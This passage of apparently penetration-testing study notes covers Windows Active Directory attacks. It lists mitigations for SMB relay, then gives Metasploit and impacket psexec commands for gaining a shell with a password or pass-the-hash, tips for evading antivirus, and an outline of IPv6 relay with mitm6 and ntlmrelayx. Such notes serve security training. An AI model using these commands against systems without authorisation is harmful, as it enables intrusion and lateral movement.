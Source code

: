 Enable SMB signing on all devices
- Pro: Completely stops the attack
- Con: Can cause performance issues with file copies (10-20% decrease in performance, [info here](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/reduced-performance-after-smb-encryption-signing))

Disable NTLM authentication on network:
- Pro: Completely stops the attack
- Con: If Kerberos stops working, Windows defaults back to NTLM

*The following are best practice and should be done regardless*

Account Tiering:
- Pro: Limits Domain Admins to specific tasks (e.g. only log on to servers with need for DA)
- Con: Enforcing the policy may be difficult

Local admin restriction (e.g. [LAPS](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview)):
- Pro: Can prevent a lot of lateral movement
- Con: Potential increase in the amount of service desk tickets

### Gaining Shell Access

Using Metasploit, with a password

```
msf6 > use exploit/windows/smb/psexec
msf6 > set SMBDomain domain.local
msf6 > set SMBPass password
msf6 > set SMBUser user
```

Using Metasploit, with a hash

Uses a local user, like adminstrator, so we don't set the domain option (use `unset varname` or set as `.`)

```
msf6 > use exploit/windows/smb/psexec
msf6 > set SMBPass LM:NT
msf6 > set SMBUser user
```

Using psexec, with a password

`impacket-psexec domain.local/user:'password'@10.10.10.2`

Using psexec, with a hash

`impacket-psexec administrator@10.10.10.2 -hashes LM:NT`

*If psexec gets blocked by an AV or for other reasons, try `wmiexec` and `smbexec`*

### IPv6 Attacks Overview

Most networks use IPv4 meaning there are usually no systems resolving DNS for IPv6

We can setup our attacking machine as an IPv6 DNS resolver to relay NTLM credentials into LDAP using mitm6, 
ntlmrelayx and ldaps

